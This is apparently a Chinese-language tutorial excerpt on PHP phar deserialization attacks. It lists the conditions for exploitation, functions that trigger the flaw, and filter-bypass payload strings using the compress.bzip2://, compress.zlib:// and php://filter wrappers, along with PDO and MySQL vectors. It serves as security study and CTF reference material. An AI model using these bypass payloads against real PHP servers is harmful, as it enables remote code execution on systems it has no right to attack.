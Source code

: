 ### 漏洞利用条件

1. phar文件要能够上传到服务器端。

2. 要有可用的魔术方法作为“跳板”。

3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤。

   #### 受影响的函数
![image-20220425153242033](https://user-images.githubusercontent.com/85486547/165104935-777cd0a4-09b9-4a35-b6f6-aa5ee72c6edd.png)



实际上不止这些，也可以参考这篇链接，里面有详细说明https://blog.zsxsoft.com/post/38

```php
//exif
exif_thumbnail
exif_imagetype
    
//gd
imageloadfont
imagecreatefrom***系列函数
    
//hash
    
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
    
// file/url
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
```